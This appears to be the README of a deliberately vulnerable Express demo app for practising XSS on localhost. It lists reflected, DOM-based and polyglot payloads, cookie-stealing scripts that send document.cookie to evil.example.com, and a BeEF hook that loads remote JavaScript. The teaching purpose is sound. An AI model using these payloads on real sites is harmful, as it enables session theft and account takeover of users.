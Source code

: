 # Hands-on Express XSS

This application is a demonstration prototype just to show how to perform XSS attacks.

# Setting-up

* Install nodejs

* Install dependencies

```console
$ npm install
```

* run application

```console
$ node app.js
```

* Make sure that TCP/3000 is allowed on your firewall

# Tutorials

These tutorials will walk you through using XSS attacks.

## Reflected XSS

* Open http://localhost:3000

* Complete name field with a simple XSS payload

```javascript
<script>alert("XSS");</script>
```

* Complete name field with a XSS payload (without script tag)

```javascript
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
```

* Complete name field with a XSS payload (with context breaking)

```javascript
" autofocus onfocus="alert('XSS')
```

* Complete name field with a polyglot XSS

```javascript
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*<svg/*/onload=alert('XSS')//>
```

## DOM-Based XSS

* Open http://localhost:3000/#message (A script inserts this URL fragment in the page)

* Open http://localhost:3000/#%3Cscript%3Ealert(%22XSS%22);%3C/script%3E


## Steal cookie

```javascript
<script>alert(document.cookie);</script>
```

Do you receive this cookie ? no

```javascript
<script>document.location= "http://evil.example.com/?cookie=" + document.cookie;</script>
```

Redirection will be suspicious! Try without redirecting on another page.

```javascript
<script>document.write('<img src="http://evil.example.com/img.jpg?cookie=' + document.cookie + '" />')</script>
```

## Beef

Payload to hook the page with BeEF:

```javascript
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"></img>
```
